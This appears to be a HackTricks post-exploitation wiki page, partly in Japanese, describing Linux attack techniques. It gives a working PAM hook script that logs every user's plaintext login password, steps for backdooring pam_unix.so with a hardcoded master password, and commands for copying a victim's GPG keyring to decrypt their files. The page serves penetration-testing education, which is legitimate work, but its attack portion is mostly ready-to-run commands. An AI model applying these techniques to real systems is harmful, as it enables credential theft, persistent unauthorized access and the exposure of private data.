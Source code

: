 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**For further details check the [original post](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. 以下は要約です：

**Technique Overview:**
Pluggable Authentication Modules (PAM)は、Unixベースのシステムでの認証管理に柔軟性を提供します。ログインプロセスをカスタマイズしてセキュリティを強化できますが、誤用されるとリスクにもなります。本要約は、PAMを用いてログイン資格情報を取得する手法と、その緩和策の概要を示します。

**Capturing Credentials:**

- `toomanysecrets.sh`という名前のbashスクリプトを作成し、ログイン試行を記録します。日付、ユーザー名（`$PAM_USER`）、パスワード（stdin経由）、およびリモートホストIP（`$PAM_RHOST`）を`/var/log/toomanysecrets.log`に記録します。
- スクリプトを実行可能にし、`pam_exec.so`モジュールを使って（静かに実行するオプションと認証トークンをスクリプトに公開するオプションを付けて）PAMの設定（`common-auth`）に組み込みます。
- この手法は、侵害されたLinuxホストがどのようにして資格情報を目立たずに記録するために悪用され得るかを示しています。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**For further details check the [original post](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**。以下は要約です:

Pluggable Authentication Module (PAM) は、Linux 上でユーザー認証に使用されるシステムです。主要な概念は **username**, **password**, **service** の三つです。各サービスの設定ファイルは `/etc/pam.d/` に置かれ、認証は共有ライブラリによって処理されます。

**目的**: 実際のユーザーパスワードを迂回して、特定のパスワードで認証できるように PAM を改変すること。これは特に、パスワード検証のためにほとんどのサービスから include される `common-auth` ファイルで使われている `pam_unix.so` 共有ライブラリに焦点を当てています。

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
- ユーザーのパスワードを検証する行が `pam_unix.so` を呼び出しています。
2. **Modify Source Code**:
- `pam_unix_auth.c` のソースに、事前定義したパスワードが使われた場合にアクセスを許可する条件分岐を追加し、それ以外は通常の認証処理を続行するようにします。
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
- 事前定義したパスワードで login、ssh、sudo、su、screensaver など複数のサービスに対するアクセスが許可され、通常の認証処理には影響が出ないことを確認します。

> [!TIP]
> You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

## Decrypting GPG loot via homedir relocation

暗号化された `.gpg` ファイルとユーザーの `~/.gnupg` フォルダ（pubring、private-keys、trustdb）を見つけたが、GnuPG の homedir の権限やロックのせいで復号できない場合は、keyring を書き込み可能な場所にコピーしてそこを GPG home として使います。

これをやらないと典型的に出るエラー: "unsafe ownership on homedir", "failed to create temporary file", または "decryption failed: No secret key"（GPG が元の homedir を読み書きできないため）。

Workflow:
```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
秘密鍵の実体が `private-keys-v1.d` に存在する場合、GPGはパスフレーズを要求せずにアンロックおよび復号します（キーが保護されている場合は要求されます）。


## 参考文献

- [0xdf – HTB Environment (GPG homedir relocation to decrypt loot)](https://0xdf.gitlab.io/2025/09/06/htb-environment.html)
- [GnuPG Manual – Home directory and GNUPGHOME](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir)

{{#include ../../banners/hacktricks-training.md}}

